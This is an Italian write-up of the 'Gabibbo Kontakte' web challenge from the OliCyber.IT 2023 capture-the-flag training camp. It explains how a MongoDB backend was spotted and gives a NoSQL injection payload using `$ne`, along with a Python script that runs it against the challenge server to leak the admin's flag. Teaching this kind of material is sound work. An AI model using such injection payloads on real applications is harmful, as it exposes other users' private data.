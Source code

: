 # OliCyber.IT 2023 - Simulazione training camp 3

## [web] Gabibbo Kontakte (10 risoluzioni)

L'applicativo si presenta come un piccolo clone di twitter, possiamo quindi registrarci, eseguire il login e pubblicare dei piccoli tweet.

Possiamo inoltre cercare un utente, questa funzionalità ci fa andare sul profilo di questo utente e ci fa vedere lo storico dei suoi tweet.

Tuttavia se andiamo sul profilo dell'utente `admin` ci viene detto che non esiste, proprio come ci anticipa la descrizione della challenge.

### Soluzione

La superficie di attacco di questa applicazione non è molto ampia, abbiamo infatti giusto un paio di form che possiamo usare.

Una cosa da notare però, importante per capire l'architettura è cosa succede quando vediamo i tweet, che siano nostri o di un altro profilo.

Nella console ci vengono stampati i dati che poi verranno renderizzati, ci salta all'occhio la struttura dell'oggetto in questione:

```json
{
  "_id": "63c91e0c379054d19d222698",
  "username": "asd",
  "content": "asd"
}
```

Abbiamo infatti una proprietà `_id` molto caratteristica, si tratta infatti di un ID tipico dei database MongoDB, proviamo dunque i payload generici delle NoSQL injection:

```json
{
  "username": {
    "$ne": ""
  }
}
```

ed in questo modo otteniamo tutti i tweet, compresi quelli dell'admin, che contiene la nostra flag.

### Exploit

```python
#!/bin/python3

import requests
import random
import string


def random_string(k=10):
    return ''.join(random.choices(string.ascii_letters, k=k))

data = {
    'username': random_string(k=20),
    'password': random_string(k=20)
}

base_url = 'http://gabibbo_kontakte.challs.olicyber.it'

# Register
s = requests.Session()

r = s.post(f'{base_url}/register', json=data)

r = s.post(f'{base_url}/api/posts', json={
    'username':{
        '$ne':''
    }
})

for x in r.json():
    if x['username'] == 'admin':
        print(x['content'])
```
